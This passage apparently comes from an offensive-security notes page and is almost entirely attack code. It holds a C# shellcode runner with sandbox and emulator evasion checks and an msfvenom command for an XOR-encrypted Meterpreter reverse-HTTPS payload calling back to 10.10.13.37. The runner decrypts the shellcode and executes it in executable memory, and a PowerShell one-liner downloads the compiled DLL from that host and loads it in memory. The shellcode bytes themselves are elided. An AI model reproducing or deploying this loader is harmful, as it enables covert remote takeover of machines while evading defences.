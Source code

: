 ```csharp
            // Check if we're in a sandbox by calling a rare-emulated API
            if (VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0) == IntPtr.Zero)
            {
                return;
            }

            // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
            var rand = new Random();
            uint dream = (uint)rand.Next(10000, 20000);
            double delta = dream / 1000 - 0.5;
            DateTime before = DateTime.Now;
            Sleep(dream);
            if (DateTime.Now.Subtract(before).TotalSeconds < delta)
            {
                Console.WriteLine("Charles, get the rifle out. We're being fucked.");
                return;
            }

            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a
            byte[] buf = new byte[???] {
            0x31,0x33,...,0x33,0x37 };

            // XOR-decrypt the shellcode
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(buf[i] ^ (byte)'a');
            }

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, addr, buf.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```
{% endcode %}

Compile to DLL and load with PowerShell from memory:

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.13.37/ShellcodeRunner.dll')
$assem = [System.Reflection.Assembly]::Load($data)

$class = $assem.GetType("ShellcodeRunner.Program")
[$bindingFlags= [Reflection.BindingFlags] "NonPublic,Static"]
$method = $class.GetMethod("Run", [$bindingFlags])
$method.Invoke(0, $null)
Or
$a = [ShellcodeRunner.Program]::Run()
```
